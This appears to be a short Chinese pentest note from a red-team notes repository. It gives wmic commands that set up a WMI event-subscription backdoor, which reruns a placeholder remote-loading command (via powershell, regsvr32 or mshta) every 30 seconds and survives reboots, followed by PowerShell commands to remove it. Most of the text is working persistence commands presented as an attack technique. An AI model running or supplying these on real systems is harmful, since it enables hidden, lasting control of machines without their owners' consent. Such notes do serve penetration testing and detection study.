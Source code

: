 	每隔30秒加载一次payload
	>wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 30 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
	>wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23",CommandLineTemplate="远程调用(powershell,regsvr32,mshta等)"
	>wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/524.png)

	重启维持
	卸载后门
	>Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='BotFilter82'" | Remove-WmiObject -Verbose
	>Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='BotConsumer23'" | Remove-WmiObject -Verbose
	>Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%BotFilter82%'" | Remove-WmiObject -Verbose